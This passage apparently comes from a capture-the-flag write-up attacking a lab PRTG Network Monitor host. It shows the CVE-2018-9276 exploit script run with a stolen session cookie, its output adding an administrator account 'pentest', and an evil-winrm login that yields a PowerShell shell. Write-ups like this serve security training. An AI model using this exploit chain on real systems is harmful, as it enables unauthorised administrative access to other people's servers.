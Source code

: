 ```none
$ ./cve-2018-9276.sh -u http://10.10.10.152 -c "_ga=GA1.4.1634127558.1599608581; _gid=GA1.4.950774786.1599608581; OCTOPUS1813713946=ezc4QjgzQkM2LUZE
QkItNDE2Qy1CQTZFLUQ3OTU3QzRDN0JGQ30%3D; _gat=1"

[+]#########################################################################[+]
[*] Authenticated PRTG network Monitor remote code execution                [*]
[+]#########################################################################[+]
[*] Date: 11/03/2019                                                        [*]
[+]#########################################################################[+]
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*]
[+]#########################################################################[+]
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*]
[*] Version: 18.2.38                                                        [*]
[*] CVE: CVE-2018-9276                                                      [*]
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*]
[+]#########################################################################[+]

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'

[+]#########################################################################[+]

 [*] file created
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st'
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

Since the host had WinRM enabled and the `pentest` user should be an administrator, I should be able to WinRM into the host to get an interactive PowerShell session. I used [evil-winrm](https://github.com/Hackplayers/evil-winrm) to do this:

```none
$ ~/tools/evil-winrm/evil-winrm.rb -u pentest -p P3nT3st! -i 10.10.10.152

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\pentest\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
netmon\pentest S-1-5-21-2105491204-2789866987-2357151585-1000


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
```